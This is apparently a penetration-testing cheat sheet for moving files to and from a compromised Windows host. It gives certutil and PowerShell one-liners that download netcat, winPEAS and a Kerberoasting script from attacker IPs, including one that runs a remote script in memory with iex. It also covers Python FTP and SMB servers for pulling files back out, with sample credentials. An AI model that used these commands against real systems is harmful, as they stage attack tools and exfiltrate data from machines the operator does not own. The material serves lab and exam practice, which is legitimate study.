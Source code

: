   # File Transfers
---------------------------

## CertUtil 
```cmd
certutil -urlcache -split -f "http://192.168.119.213:8000/nc.exe" nc.exe
```

## PowerShell
```Powershell
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.0.2.15:8009/winpeas.exe', 'winpeas.exe')"
```

```Powershell
powershell Invoke-WebRequest -Uri IP:PORT/nc.exe -OutFile C:\Users\Public\nc.exe
```

```Powershell
iex(new-object system.net.webclient).downloadstring("http://192.168.119.230/GetUserSPNs.ps1.ps1")
```

```Powershell
powershell -c iwr http://10.10.14.51:8010/nc.exe -outfile nc.exe 
```

## FTP 

ftp server using python:

```bash
pip3 install pyftpdlib
```

```bash
sudo python3 -m pyftpdlib -u cbbn -P passw0rd123 -p 21 --write
```

## SMB 

### Transfer from our PC to windows:

```bash
python3 smbserver.py share /home/cibbin/
```

```cmd
copy \\IP\share\file_name.exe
```

### From windows to our PC:

smbserver

```bash
python3 smbserver.py -smb2support share .
```

smbserver with creds:

```bash
python3 smbserver.py share /home/cibbin/ -smb2support -username cibbin -password root123
```

 - add the share in windows and connect to it:

```cmd 
net use \\IP\share /u:cibbin root123

copy filename.zip \\IP\share\

del filename

net use /d \\IP\share	#delete the mounted share
```

its important to delete the mounted share since it will use the same creds when logging in next time 

net use  */del 




